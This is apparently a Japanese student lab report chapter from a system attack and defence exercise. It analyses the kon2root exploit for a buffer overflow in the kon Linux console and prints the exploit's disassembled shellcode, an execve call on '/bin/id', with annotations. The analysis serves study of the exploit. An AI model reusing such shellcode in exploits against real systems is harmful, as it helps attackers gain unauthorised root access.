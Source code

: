 \chapter{システム攻撃・防御演習}

\section{概要}

システム攻撃・防御演習では、konに存在するバッファオーバーフローの脆弱性を利用してroot権限を奪取するexploitプログラムを解析し、その仕組みを理解した。

\section{実験内容}

kon（Kanji ON Linux console）
をインストールしたLinuxマシンを用意し、その上でkon2rootというexploitプログラムを実行した。しかし、root権限を奪取することはできなかった。そこで、kon2rootのソースコードを解析した結果、konのバッファオーバーフロー脆弱性を利用して、シェルコードを送り込んでいる部分を発見した。このシェルコードは機械語であったので、逆アセンブルしたところ、以下のようなアセンブリが得られた。

\begin{verbatim}
 // 2. へジャンプ
 8049668:   eb 1f                   jmp    8049689 <w00tI4r3l33t+0x29> 

// sys_execve:プログラムファイル（/bin/id）の実行                             //1.
 804966a:   5e                      pop    esi
 804966b:   89 76 08                mov    DWORD PTR [esi+8],esi
 804966e:   31 c0                   xor    eax,eax
 8049670:   88 46 07                mov    BYTE PTR [esi+7],al
 8049673:   89 46 0c                mov    DWORD PTR [esi+12],eax
 8049676:   b0 0b                   mov    al,0xb
 8049678:   89 f3                   mov    ebx,esi
 804967a:   8d 4e 08                lea    ecx,[esi+8]
 804967d:   8d 56 0c                lea    edx,[esi+12]
 8049680:   cd 80                   int    0x80
 
// sys_exit：exit
 8049682:   31 db                   xor    ebx,ebx
 8049684:   89 d8                   mov    eax,ebx
 8049686:   40                      inc    eax
 8049687:   cd 80                   int    0x80

// 1. をコール
 8049689:   e8 dc ff ff ff          call   804966a <w00tI4r3l33t+0xa>       // 2.
 804968e:   2f 62 69 6e 2f 69 64    db     "/bin/id"
\end{verbatim}

